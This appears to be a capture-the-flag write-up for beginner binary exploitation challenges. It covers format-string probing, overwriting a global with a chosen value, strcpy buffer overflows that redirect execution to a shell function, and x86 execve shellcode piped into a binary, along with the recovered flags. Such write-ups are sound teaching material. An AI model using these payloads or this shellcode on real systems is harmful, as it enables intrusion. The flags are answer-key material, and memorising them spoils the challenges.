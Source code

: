 Format
-------
Goal: Replace the value of secret with 1337 to get shell 

Method: Find address of secret. It is a global variable and hence found in .data section. 
Run objdump -d
Try to find if you can find the address of secret in the stack by poping its content using %p as arguments to format.
./format "python -c 'print "%p."*10'"
You find that the 7th argument is the address of secret. Replace it as shown in the exploit ! :)

write_right
--------------
This is pretty simple one. The binary ask you to enter the address where you want to write and also the value. We want to write the value 0x1337beef to the address of secret. 
Do objdump -D to find the address of secret. You can find it in .data section as it is a global variable. Provide the address, and then enter the desired value when asked for. 

overflow2
-------------
vulnerability: strcpy()
Goal: Change return address to that of give_shell()
address of give_shell found using objdump -d
./overflow2 $(python -c 'print "A"*20 + "\xad\x84\x04\x08"')
$ cat flag.txt                                                                                
controlling_%eip_feels_great    

overflow1
--------------
./overflow $(python -c 'print "A"*16 + "\xce\xfa\xde\xc0"')
flag: ooh_so_critical

execute
-----------
getegid() - returns effective group id of calling process. 
What is the string entered gets executed. Enter shell code. 
(python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | ./execute
cat flag.txt
shellcode_is_kinda_cool


